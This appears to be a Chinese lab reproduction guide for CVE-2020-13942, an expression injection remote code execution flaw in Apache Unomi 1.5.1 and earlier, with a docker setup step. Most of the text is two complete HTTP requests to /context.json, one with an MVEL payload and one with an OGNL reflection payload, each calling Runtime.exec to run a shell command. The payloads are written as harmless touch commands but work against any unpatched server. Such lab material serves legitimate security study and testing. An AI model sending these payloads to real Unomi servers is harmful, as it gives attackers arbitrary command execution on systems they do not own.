

Apache Unomi 表达式注入远程代码执行漏洞（CVE-2020-13942）¶
Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。
参考链接：
- https://www.checkmarx.com/blog/apache-unomi-cve-2020-13942-rce-vulnerabilities-discovered/
- https://github.com/eugenebmx/CVE-2020-13942
环境搭建¶
运行如下命令启动一个Apache Unomi 1.5.1的服务器：
docker compose up -d
环境启动后，通过http://your-ip:8181或https://your-ip:9443即可访问到Unomi的API。
漏洞复现¶
通过8181和9443两个端口均可触发漏洞，以下以8181为例。
通过MVEL表达式执行任意命令：
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 483
{
"filters": [
{
"id": "sample",
"filters": [
{
"condition": {
"parameterValues": {
"": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
},
"type": "profilePropertyCondition"
}
}
]
}
],
"sessionId": "sample"
}
通过OGNL表达式执行任意命令：
POST /context.json HTTP/1.1
Host: localhost:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1064
{
"personalizations":[
{
"id":"gender-test",
"strategy":"matching-first",
"strategyOptions":{
"fallback":"var2"
},
"contents":[
{
"filters":[
{
"condition":{
"parameterValues":{
"propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
"comparisonOperator":"equals",
"propertyValue":"male"
},
"type":"profilePropertyCondition"
}
}
]
}
]
}
],
"sessionId":"sample"
}
进入容器，可见命令已执行成功：
